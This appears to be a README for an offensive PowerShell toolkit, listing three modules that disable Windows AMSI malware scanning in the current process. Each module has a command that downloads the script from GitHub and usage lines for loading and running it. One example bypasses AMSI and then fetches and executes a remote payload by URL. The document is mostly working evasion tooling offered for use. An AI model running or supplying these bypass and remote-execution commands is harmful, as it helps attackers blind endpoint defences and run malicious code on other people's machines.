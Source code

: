 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|4 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Module Name
   <b><i>Invoke-Bypass.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process using well known techniques</i></b>|User Land|3 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

```powershell      
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
